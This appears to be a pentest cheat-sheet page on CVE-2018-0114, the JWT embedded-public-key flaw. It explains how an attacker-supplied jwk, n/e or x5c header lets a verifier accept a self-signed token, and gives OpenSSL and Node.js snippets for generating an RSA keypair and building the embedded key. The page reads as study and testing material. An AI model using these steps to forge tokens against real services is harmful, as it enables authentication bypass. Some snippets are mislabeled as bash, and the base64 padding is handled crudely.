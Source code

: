 # Embedded Public Key (CVE-2018-0114)
## How the attack works (conceptual)

1. Server receives a JWT with a header that contains public key components (e.g. a JWK or `n`/`e` for RSA).
2. The verifier reads those components and constructs a public key object.
3. The verifier uses that public key to check the signature.
4. If the attacker included their own public key and signed with the matching private key, verification succeeds.

Common header fields that can be abused: `jwk`, `n`/`e` in custom headers, `x5c` (if the server accepts untrusted certs), or any header-specified key material.

### Generate RSA keypair (OpenSSL)
``` bash
# Generate private key
openssl genrsa -out keypair.pem 2048

# Extract public key (PEM)
openssl rsa -in keypair.pem -pubout -out publickey.crt

# Convert private key to PKCS#8 (PEM, unencrypted)
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt \
  -in keypair.pem -out pkcs8.key

```
### Extract RSA components (n and e) in Node.js (base64 or hex)
``` bash
// Install: npm i node-rsa
const NodeRSA = require('node-rsa');
const fs = require('fs');

// load private key
const keyPair = fs.readFileSync('keypair.pem');
const key = new NodeRSA(keyPair);

// export public components (Buffer objects)
const publicComponents = key.exportKey('components-public');
// n and e are Buffers (big-endian)
console.log('n (hex):', publicComponents.n.toString('hex'));
console.log('e (hex):', publicComponents.e.toString('hex'));

// For building a JWK you will base64url-encode the big-endian bytes of n and e.

```
### Importing a public key from `n` and `e` (Node example)
``` bash
// Convert base64url n,e -> Buffer and import as public key
// Example uses node-rsa which accepts 'components-public' with Buffer n and e.

const NodeRSA = require('node-rsa');

// Suppose `n_b64url` and `e_b64url` are from a token header
const base64url = (s) => s.replace(/-/g,'+').replace(/_/g,'/'); // simple convert (pad as needed)

const n = Buffer.from(base64url(n_b64url) + '==', 'base64'); // ensure padding
const e = Buffer.from(base64url(e_b64url) + '==', 'base64');

const key = new NodeRSA();
key.importKey({ n: n, e: e }, 'components-public');
```